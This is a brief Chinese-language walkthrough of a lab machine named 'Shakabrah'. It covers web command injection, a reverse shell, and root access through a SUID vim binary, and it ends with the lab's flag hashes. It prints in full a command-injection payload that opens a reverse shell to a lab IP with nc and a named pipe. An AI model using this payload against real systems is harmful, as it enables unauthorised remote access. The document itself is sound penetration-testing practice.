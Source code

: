 # Shakabrah

是Web題
![](images/p7q13rR.png)

一進去感覺就是要Command Injection 戳一個Payload就能RCE了
(這題有環境問題 只能用他指定的Payload戳Reverse shell)
`;rm -f /tmp/x; mkfifo /tmp/x; /bin/sh -c "cat /tmp/x | /bin/sh -i 2>&1 | nc 192.168.49.173 80 > /tmp/x"`
![](images/We0odDV.png)

![](images/zpFKcO7.png)

## 提權

翻SUID文件找到一個奇怪的檔案 運行以後發現是vim
![](images/b6HnMnJ.png)

![](images/gEf4Hwl.png)

到GTFOBins上找SUID的提權就直接root了 但因為沒有python所以要用py3
![](images/PyVKi0l.png)

![](images/vSGmvSS.png)

## Proof

local.txt
`f857a1b073bf4f504ff6d4ff8db81cc5`
![](images/icHhL7l.png)

proof.txt
`a7a335ff352dc977cb424287ba031808`
![](images/aAf8LeN.png)